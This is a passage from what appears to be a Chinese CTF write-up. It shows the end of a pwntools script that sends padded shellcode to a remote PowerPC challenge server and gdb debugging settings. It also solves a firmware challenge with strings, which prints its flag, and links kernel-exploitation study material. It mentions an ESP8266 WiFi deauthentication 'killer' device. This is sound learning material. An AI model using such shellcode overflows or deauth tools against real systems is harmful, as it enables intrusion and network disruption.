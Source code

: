 ```python
#io = process(['./qemu-ppc-static','-g','1234','./PPPPPPC'])
io = remote("183.129.189.60",10039)
io.sendlineafter("name",shellcode.ljust(316,'a')+p32(0xf6fffab8))
io.interactive()
```

gdb.cmd：

```python
file PPPPPPC
set architecture powerpc:403
set endian big
b * 0x100b3390
target remote :1234
```

### nodemcu

> nodemcu:esp8266:xtensa:firmware

比赛时没仔细看是个啥玩意，binwalk也没分析出指令集来，strings直接出flag：

```
➜  strings nodemcu.bin
flag{
6808dcf0
-526e-11eb-92de-
acde48001122
```

赛后查了一下，看起来是底层是ESP8266，之前看过用这玩意做的wifi杀手（就是发断网包）:[ESP8266 WiFi杀手终极版操作演示](https://www.bilibili.com/video/BV1fJ411h7hV)。正好最近买了一个，过一阵研究研究：

- [NodeMCU: 百度百科](https://baike.baidu.com/item/NodeMCU/17106281)
- [NodeMCU: 超简单的物联网开发平台](https://www.nodemcu.com/index_cn.html)
- [ESP8266/ESP32芯片与Lua脚本](https://blog.csdn.net/zhuzhuzhu22/article/details/88821521)

## 内核安全

第一次做内核，基础学习文章如下：

- [Linux Kernel Basics](https://lantern.cool/note-pwn-kernel-basics/)
- [linux内核基础](https://beafb1b1.github.io/kernel/linux_kernel_base/)
- [Linux Kernel 环境配置及调试](https://lantern.cool/note-pwn-kernel-environment/)
- [Linux Kernel Pwn 学习笔记(栈溢出) ](https://bbs.pediy.com/thread-261586.htm)
- [HWS夏令营 之 GDB调一切: 调试linux内核](https://xuanxuanblingbling.github.io/ctf/pwn/2020/08/24/gdb/)

基础练习题目如下：

- 练习文章：[Linux Kernel Pwn 初探](https://xz.aliyun.com/t/7625)
- 配套题目：链接:[https://pan.baidu.com/s/1yuefRhjs2KTxK2f_sC4cUA](https://pan.baidu.com/s/1yuefRhjs2KTxK2f_sC4cUA) 密码:q58k

进阶练习题目如下：ISCN2017 - babydriver、2018 强网杯 - core、2018 0CTF Finals Baby Kernel

- [Linux Kernel UAF **CISCN2017 - babydriver**](https://lantern.cool/note-pwn-kernel-UAF/)
- [Linux Kernel bypass-smep **CISCN2017 - babydriver**](https://lantern.cool/note-pwn-kernel-smep/)
- [Linux Kernel ROP **2018 强网杯 - core**](https://lantern.cool/note-pwn-kernel-rop/)
- [Linux Kernel ret2usr **2018 强网杯 - core** ](https://lantern.cool/note-pwn-kernel-ret2usr/)
- [Linux Kernel Double Fetch **2018 0CTF Finals Baby Kernel** ](https://lantern.cool/note-pwn-kernel-double-fetch/)  

